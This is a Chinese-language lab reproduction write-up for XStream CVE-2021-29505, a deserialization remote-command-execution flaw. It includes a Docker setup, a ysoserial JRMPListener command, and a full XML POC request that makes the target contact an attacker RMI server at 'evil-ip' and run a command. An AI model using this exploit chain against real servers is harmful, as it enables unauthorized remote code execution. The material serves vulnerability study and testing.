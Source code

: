 # XStream 反序列化命令执行漏洞 CVE-2021-29505

## 漏洞描述

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造RMI请求，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-29505.html
- https://paper.seebug.org/1543/

## 环境搭建

Vulhub执行如下命令启动一个Springboot + XStream 1.4.16的环境：

```
docker-compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![image-20220302231858031](images/202203022318110.png)

## 漏洞复现

作为攻击者，我们在自己的服务器上使用[ysoserial](https://github.com/frohoff/ysoserial)的JRMPListener启动一个恶意的RMI Registry：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/awesome_poc"
```

这个RMI Registry在收到请求后，会返回用CommonsCollections6利用链构造的恶意序列化对象。

然后，我们向目标服务器发送CVE-2021-29505的XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip是恶意RMI服务器的地址。恶意RMI服务器收到RMI请求：

![image-20220302232424814](images/202203022324983.png)

进入目标容器内，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220302232344183](images/202203022323249.png)

值得注意的是，我们没有直接使用[官网](https://x-stream.github.io/CVE-2021-29505.html)给出的POC，那个POC是错的。

